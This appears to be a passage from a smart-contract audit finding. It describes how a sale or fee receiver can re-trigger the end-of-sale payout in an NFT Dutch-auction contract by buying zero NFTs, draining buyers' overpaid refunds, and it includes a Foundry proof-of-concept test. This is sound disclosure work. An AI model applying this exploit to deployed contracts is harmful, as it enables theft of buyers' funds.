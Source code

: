 Earlier there's also a check that you cannot continue buying once the `currentId` has reached `finalId`:

```javascript
67:        uint48 newId = amount + temp.currentId;
68:        require(newId <= temp.finalId, "TOO MANY");
```

However, it is still possible to buy `0` NFTs for whichever price you want even after the sale has ended. Triggering the "end of sale" snippet again, since `newId` will still equal `temp.finalId`.

The attacker, `saleReceiver` (or `feeReceiver`), buys `0` NFTs for the delta between `totalSale` and the balance still in the contract (the over payments by buyers). If there is more balance in the contract than `totalSales` this can be iterated until the contract is empty.

The attacker has then stolen the over payments from the buyers.

A buyer can mitigate this by continuously calling `refund()` as the price lowers but that would incur a high gas cost.

### Impact

`saleReceiver` or `feeReceiver` can steal buyers over payments after the sale has ended. Who gains the most depends on circumstances in the auction.

### Proof of Concept

PoC test in `test/LPDA.t.sol`:

```javascript
    function test_BuyStealRefund() public {
        sale = LPDA(lpdaSales.createLPDASale(lpdaSale));
        edition.grantRole(edition.MINTER_ROLE(), address(sale));
        
        // buy most nfts at a higher price
        sale.buy{value: 9 ether}(9);

        // warp to when price is lowest
        vm.warp(block.timestamp + 1 days);
        uint256 price = sale.getPrice(); // 0.9 eth

        // buy last nft at lowest possible price
        sale.buy{value: price}(1);

        uint256 contractBalanceAfterEnd = address(sale).balance;
        uint256 receiverBalanceAfterEnd = address(69).balance;
        console.log("Sale end");
        console.log("LPDA contract",contractBalanceAfterEnd); // ~ 0.9 eth
        console.log("saleReceiver ",receiverBalanceAfterEnd); // ~9 - fee eth

        // buy 0 nfts for the totalSales price - current balance
        // totalSales: 9 eth - contract balance 0.9 eth = ~8.1 eth
        uint256 totalSale = price * 10;
        uint256 delta = totalSale - contractBalanceAfterEnd;
        sale.buy{value: delta}(0);

        console.log("after steal");
        console.log("LPDA contract",address(sale).balance);
        console.log("saleReceiver ",address(69).balance - receiverBalanceAfterEnd - delta); // ~0.45 eth stolen by receiver, 0.45 eth to fees

        // buyer supposed to get back the ~0.9 eth
        vm.expectRevert(); // EvmError: OutOfFund
        sale.refund(); // nothing to refund
    }
```
